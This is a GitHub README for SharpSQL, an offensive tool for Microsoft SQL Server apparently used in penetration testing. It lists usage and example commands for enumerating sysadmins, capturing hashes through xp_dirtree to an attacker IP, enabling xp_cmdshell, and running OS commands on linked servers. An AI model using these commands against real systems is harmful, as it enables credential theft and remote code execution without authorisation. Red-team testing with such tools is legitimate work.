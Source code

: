# SharpSQL

Simple port of PowerUpSQL
- Methods and options are case-insensitive e.g. `Get-SQLInstanceDomain`/`get-sqlinstancedomain` or `-Instance`/`-instance`
- `-Instance` required for all methods except `Get-SQLInstanceDomain`

Thanks to [tevora-threat](https://github.com/tevora-threat) for getting the ball rolling.

## Usage
```
SharpSQL by @mlcsec

Usage:

    SharpSQL.exe [Method] [-Instance <sql.server>] [-LinkedInstance <linked.sql.server>] [-Command <whoami>] [-Query <query>]

Options:

    -Instance                  - The instance to taget
    -db                        - The db to connect to (default: master)
    -LinkedInstance            - The linked instance to target
    -ip                        - The IP to xp_dirtree (share: /pwn)
    -User                      - The user to impersonate
    -Command                   - The command to execute (default: whoami - Invoke-OSCmd and Invoke-LinkedOSCmd)
    -Query                     - The raw SQL query to execute
    -help                      - Show  help

Methods:
    Get-SQLInstanceDomain      - Get SQL instances within current domain via user and computer SPNs (no parameters required)
    Get-Databases              - Get available databases (-Instance required)
    Get-DBUser                 - Get database user via USER_NAME (-Instance required)
    Get-GroupMembership        - Get group member for current user ('guest' or 'sysadmin') (-Instance required)
    Get-Hash                   - Get hash via xp_dirtree (-Instance and -ip required)
    Get-ImpersonableUsers      - Get impersonable users (-Instance required)
    Get-LinkedServers          - Get linked SQL servers (-Instance required)
    Get-LinkedPrivs            - Get current user privs for linked server (-Instance and -LinkedInstance required)
    Get-Sysadmins              - Get sysadmin users (-Instance required)
    Get-SystemUser             - Get system user via SYSTEM_USER (-Instance required)
    Get-SQLQuery               - Execute raw SQL query (-Instance and -Query required)
    Get-Triggers               - Get SQL server triggers (-Instance required)
    Get-Users                  - Get users from syslogins (-Instance required)
    Get-UserPrivs              - Get current user server privileges (-Instance required)
    Check-Cmdshell             - Check whether xp_cmdshell is enabled on instance (-Instance required)
    Check-LinkedCmdshell       - Check whether xp_cmdshell is enabled on linked server (-Instance and -LinkedInstance required)
    Enable-Cmdshell            - Enable xp_cmdshell on instance (-Instance required)
    Enable-LinkedCmdshell      - Enable xp_cmdshell on linked server (-Instance and -LinkedInstance required)
    Invoke-OSCmd               - Execute system command via_xp_cmdshell on instance (-Instance required)
    Invoke-LinkedOSCmd         - Executes system command via xp_cmdshell on linked server (-Instance and -LinkedInstance required)
    Invoke-ExternalScript      - Invoke external python script command execution (-Instance required)
    Invoke-OLEObject           - Invoke OLE wscript command execution (-Instance required)
    Invoke-UserImpersonation   - Impersonate user (-Instance and -User required)

Examples:

    SharpSQL.exe Get-SQLInstanceDomain
    SharpSQL.exe Get-UserPrivs -Instance sql.server
    SharpSQL.exe Get-Sysadmins -Instance sql.server
    SharpSQL.exe Get-LinkedServers -Instance sql.server
    SharpSQL.exe Get-Hash -Instance sql.server -ip 10.10.10.10
    SharpSQL.exe Invoke-OSCmd -Instance sql.server -Command "whoami /all"
    SharpSQL.exe Invoke-LinkedOSCmd -Instance sql.server -LinkedInstance linked.sql.server -Command "dir C:\users\"
```


## Demo
### Get-GroupMembership
![image](https://user-images.githubusercontent.com/47215311/153180706-78e2a53c-79fb-4db0-ba03-cda16d476966.png)

### Get-SQLquery
![image](https://user-images.githubusercontent.com/47215311/153181678-6d61bb45-ff9b-4451-93ff-9497ab875bc5.png)

### Get-UserPrivs
![image](https://user-images.githubusercontent.com/47215311/153054239-3937a19a-5514-42fb-980c-4e1676f085ca.png)

### Invoke-OSCmd
![image](https://user-images.githubusercontent.com/47215311/153182593-e40747ff-b9f1-4ed4-a634-556f37e617ea.png)




## Todo

- Test:
    - `Invoke-ExternalScript` - not tested in lab
    - `Invoke-OLEObject` - not tested in lab
    - `Invoke-UserImpersontation` - not tested in lab

- Fix:
    - `Enable-LinkedCmdshell` - rpc or metadata error currently, `Check-LinkedCmdshell` and `Invoke-LinkedOSCmd` work fine

- Add:
    - `Invoke-CustomAsm`
    - `Add-User`
    - `Add-LinkedUser`
    - double link crawl functionality, raw queries should work as is
